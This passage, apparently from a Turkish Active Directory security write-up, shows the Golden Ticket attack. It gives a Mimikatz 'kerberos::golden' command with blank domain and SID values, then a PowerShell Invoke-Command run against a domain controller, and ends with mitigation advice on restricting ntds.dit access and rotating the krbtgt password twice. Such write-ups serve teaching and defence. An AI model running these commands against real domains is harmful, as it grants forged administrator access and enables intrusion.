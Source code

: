 ```powershell
# Altın Bilet oluşturma
Mimikatz.exe "privilege::debug" "kerberos::golden /endin:600 /startoffset:0 /renewmax:10080 /user:administrator /domain: /sid: /id: /group: /ptt" "exit"
```
![Altın Bilet saldırısı](images/2.png)

Uzak sistemde powershell ile komut çalıştırma işlemi gerçekleştiriliyor.

```powershell
# DC üzerinde komut çalıştırma
Invoke-Command -ComputerName dc.windomain.local -ScriptBlock {ipconfig}
```
![Uzak sistemde komut çaıştırma](images/3.png)

## Mitigation

1. Sunuculara ve servislere erişimler kısıtlanarak saldırganların sistem üzerinde ayrıcalıklar elde etmesi engellenebilir. Ayrıca yetki verilmiş kullanıcılar kontrol edilmeli ve gereksiz yetkilendirme yapılmamalıdır. Bu şekilde ntds.dit erişimi kısıtlanarak krbtgt parola özetlerine ulaşım zorlaştırılabilir. 

2. 
    a) Krbtgt ve diğer servis hesaplarının parolaları düzenli aralıklarla değiştirilmelidir.

    b) Krbtgt hesabı mevcut parolanın yanı sıra eski parolayıda saklamaktadır. Bu işlemi önceden oluşturulan biletlerin kontrolünü sağlayabilmek adına yapmaktadır. Krbtgt parola özetleri değişitirilirken üst üste 2 kez değiştirilerek önceki parolaların geçerliliği de sonlandırılmalıdır. Microsoft'un geliştirmiş olduğu özel script ile bu işlemi gerçekleştirebilirsiniz.
